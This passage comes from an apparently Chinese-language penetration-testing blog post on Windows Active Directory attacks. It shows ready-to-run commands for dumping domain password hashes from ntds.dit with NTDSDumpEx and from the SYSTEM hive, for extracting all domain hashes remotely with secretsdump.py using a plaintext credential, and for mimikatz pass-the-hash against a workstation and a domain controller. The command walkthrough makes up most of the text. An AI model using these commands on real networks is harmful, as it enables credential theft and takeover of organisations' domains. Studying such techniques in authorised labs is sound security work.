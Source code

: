 利用工具dump出hash,工具地址：

```
https://github.com/zcgonvh/NTDSDumpEx/releases
```
使用

```
NTDSDumpEx -d ntds.dit -o domain.txt -s system.hiv    (system.hive文件获取:reg save hklm\system system.hiv)
NTDSDumpEx -d ntds.dit -o domain.txt -r               (此命令适用于在域控本地执行)
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/17.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/18.png)

最后记得卸载删除快照：

```
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/19.png)

### secretsdump脚本直接导出域hash
为什么要再提一遍secretsdump呢，因为它可以直接导出
(本地域控没py环境，不做了)
```
python secretsdump.py administrator:abc123!@192.168.28.10
```
首先它会导出本地SAM中的hash，然后是所有域内用户的IP，全部获取成功

### 哈希传递攻击PTH
###  工作组环境
当我们获得了一台主机的NTLM哈希值，我们可以使用mimikatz对其进行哈希传递攻击。执行完命令后，会弹出cmd窗口。

```
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9
```
在弹出的cmd窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/20.png)

注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。

### 域环境

在域环境中，当我们获得了域内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域控进行哈希传递攻击。执行完命令后，会弹出cmd窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的NTLM哈希值

```
privilege::debug
#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:administrator /domain:"xie.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5 
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/21.png)

